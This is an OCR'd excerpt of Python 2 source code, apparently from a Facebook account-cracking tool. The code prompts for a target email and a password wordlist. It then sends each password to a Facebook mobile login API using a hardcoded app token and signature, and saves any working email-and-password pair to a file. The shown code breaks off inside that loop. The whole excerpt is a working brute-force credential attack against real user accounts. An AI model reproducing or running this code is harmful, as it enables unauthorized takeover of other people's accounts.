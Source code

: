     except IOError:

        print '\x1b[1;91m[!] Token not found'

        os.system('rm -rf login.txt')

        time.sleep(0.5)

        login()

    else:

        os.system('clear')

        print logo

        print '\033[1;31;40m ●════════════════════════◄►════════════════════════●'

        try:

            email = raw_input('\x1b[1;91m[+] \x1b[1;92mID\x1b[1;97m/\x1b[1;92mEmail \x1b[1;97mTarget \x1b[1;91m:\x1b[1;97m ')

            passw = raw_input('\x1b[1;91m[+] \x1b[1;92mWordlist \x1b[1;97mext(list.txt) \x1b[1;91m: \x1b[1;97m')

            total = open(passw, 'r')

            total = total.readlines()

            print '\033[1;31;40m ●════════════════════════◄►════════════════════════●'

            print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mTarget \x1b[1;91m:\x1b[1;97m ' + email

            print '\x1b[1;91m[+] \x1b[1;92mTotal\x1b[1;96m ' + str(len(total)) + ' \x1b[1;92mPassword'

            jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mPlease wait \x1b[1;97m...')

            sandi = open(passw, 'r')

            for pw in sandi:

                try:

                    pw = pw.replace('\n', '')

                    sys.stdout.write('\r\x1b[1;91m[\x1b[1;96m\xe2\x9c\xb8\x1b[1;91m] \x1b[1;92mTry \x1b[1;97m' + pw)

                    sys.stdout.flush()

                    data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + email + '&locale=en_US&password=' + pw + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')

                    mpsh = json.loads(data.text)

                    if 'access_token' in mpsh:

                        dapat = open('Brute.txt', 'w')

                        dapat.write(email + ' | ' + pw + '\n')

                        dapat.close()
